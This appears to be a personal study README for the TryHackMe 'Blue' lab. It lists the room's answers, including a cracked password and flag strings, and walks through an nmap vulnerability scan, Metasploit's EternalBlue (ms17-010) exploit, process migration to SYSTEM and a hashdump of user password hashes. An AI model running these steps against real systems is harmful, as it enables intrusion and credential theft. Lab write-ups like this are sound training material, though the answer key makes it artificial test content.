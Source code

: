Blue machine on thm
This is my first thm repository.
This repository is made with the purpose of taking notes about the machine, therefore possible future study material.

THM tasks
How many ports are open with a port number under 1000?

3
What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

ms17-010
Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

exploit/windows/smb/ms17_010_eternalblue
Show options and set the one required value. What is the name of this value? (All caps for submission)

rhosts
If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

post/multi/manage/shell_to_meterpreter
Select this (use MODULE_PATH). Show options, what option are we required to change?

sessions
Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

jon
Copy this password hash to a file and research how to crack it. What is the cracked password?

alqfna22
Flag1? This flag can be found at the system root.

flag{access_the_machine}
Flag2? This flag can be found at the location where passwords are stored within Windows.

flag{sam_database_elevated_access}
Flag3?

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.
Pocedure
Scanning
First of all, I'm making an nmap scan and saving it in the file initialNmap_scan:

sudo nmap -sV -vv -script vuln 10.10.92.38 -oN initialNmap_scan
The scans shows a remote code execution (RCE) vulnerability in Microsoft SMBv1 servers.

Exploit
This vulneravility should be exploitable with metasploit, so I'm starting it:

msfconsole
I look for the right module in metasploit:

search ms17-010
I find eternalblue and I select it:

use <number of module in the list>
After selecting it, I set the value rhosts with the IP of the target machine in THM

set rhosts 10.10.92.38
It's al set now, time to run the expoit

run
Escalate
At this point, I'm rebooting the machine so the IP is different (10.21.13.118)

I've realised that I didn't set the lhost to my openvpn IP, and that was causing the failure, now I set it up:

setg lhost 10.21.13.118
The exploit should have set up a shell, and I was supposed to escalate it to meterpreter, but with the default payload it already escalated it, so there's no need to do it mannually. If i run 'shell' and 'whoami' I will get that we are system.

PID of the powershell.exe NT AUTHORITY\SYSTEM: 2900

Now we migrate to this process:

migrate PROCESS_ID
Now we are in the powershell. I now run 'hashdump' to get the hashes of the users: Jon, and check if I can crack the password in hashes.com

Flags
I've found the first flag running 'search flag*'

Now I just have to go to the directories and check them.
